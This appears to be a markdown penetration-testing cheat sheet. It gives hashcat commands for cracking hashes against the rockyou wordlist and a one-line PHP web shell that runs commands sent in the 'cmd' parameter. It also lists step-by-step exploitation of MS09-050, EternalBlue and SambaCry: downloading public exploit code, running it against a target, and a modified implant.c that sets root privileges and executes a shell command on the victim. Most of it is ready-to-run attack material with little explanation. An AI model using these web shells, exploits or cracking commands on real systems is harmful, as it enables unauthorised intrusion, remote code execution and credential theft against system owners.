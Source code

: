 Attacks
* Dictionary: 0

```bash
hashcat -m 1400 -a 0 /path/to/hashes.txt /usr/share/wordlists/rockyou.txt
```

```bash

hashcat -m 13000 -a 0 rar.hash /usr/share/wordlists/rockyou.txt
```

#### Local File Inclusions
Find a way to upload a PHP command shell.
```bash
echo "<?php echo shell_exec($_GET['cmd']); ?>" > shell.php
```

#### MS09-050  
**CVE-2009-3103: SMBv2 Command Value Vulnerability**  
This vulnerability impacts Windows Server 2008 SP1 32-bit as well as Windows Vista SP1/SP2 and Windows 7.
```bash
nmap $TARGET -p445 --script smb-vuln-cve2009-3103
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```

#### EternalBlue  
**CVE-2017-0144**  
This vulnerability impacts Windows. Exploiting it requires access to a Named Pipe (NOTE: Windows Vista and newer does not allow anonymous access to Named Pipes).
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
pip install impacket # mysmb.py ships with this exploit. offsec also hosts it on their GitHub
python checker.py $TARGET # check if target is vulnerable and find an accessible Named Pipe
python zzz_exploit.py $TARGET $NAMED_PIPE
```

#### SambaCry  
**CVE-2017-7494**  
Exploiting this vulnerability depends on your ability to write to a share. Download Proof-of-Concept code from joxeankoret and modify as desired.
```bash
mkdir exploits
cd exploits
git clone https://github.com/joxeankoret/CVE-2017-7494.git
cd CVE-2017-7494
mv implant.c implant.bak
vim implant.c
```

An example of a modified implant.c file. This source file gets compiled by the provided Python script.
```c
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("ping -c2 $LHOST");
}
```
